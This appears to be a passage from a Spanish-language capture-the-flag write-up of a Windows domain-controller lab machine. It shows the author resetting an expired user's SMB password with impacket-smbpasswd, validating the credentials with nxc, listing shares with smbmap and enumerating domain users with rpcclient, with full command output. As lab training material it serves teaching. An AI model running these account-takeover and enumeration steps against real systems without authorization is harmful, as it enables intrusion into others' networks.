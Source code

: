 Vamos a poner una password mas robusta

```shell
$ impacket-smbpasswd bnielson@10.129.2.5 -newpass Pointed123@
Impacket v0.11.0 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

Vamos a probar con `nxc`
```shell
$ nxc smb 10.129.2.5 -u 'bnielson' -p 'Pointed123@'
SMB         10.129.2.5      445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.129.2.5      445    FUSE             [+] fabricorp.local\bnielson:Pointed123@
```

Ningún usuario de la lista está en el grupo de `Remote Management Users` por lo cual no podemos utilizar herramientas como `evil-winrm` para conseguir una shell.

# 📂 Enumerating SMB
Cuando intento enumerar el SMB se ha reestablecido la pwd, por lo cual podemos deducir que hay un script por detrás que va reestableciendo la contraseña a estos usuarios.

```shell
$ smbmap -H 10.129.2.5 -u bnielson -p 'ASsdasd23123123@'
[+] IP: 10.129.2.5:445	Name: fabricorp.local                                   
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	HP-MFT01                                          	NO ACCESS	HP-MFT01
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	print$                                            	READ ONLY	Printer Drivers
	SYSVOL                                            	READ ONLY	Logon server share
```

Lo único interesante es el recurso `print$` pero no encontramos nada de interés.

# 📂 Enumerating RPC and Gaining Foothold
Con `rpcclient` vamos a seguir enumerando usuarios, grupos y equipos.

Tenemos permisos suficientes, así que perfecto.
```shell
$ rpcclient -U bnielson%'Wachiturro123@' 10.129.2.5
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
```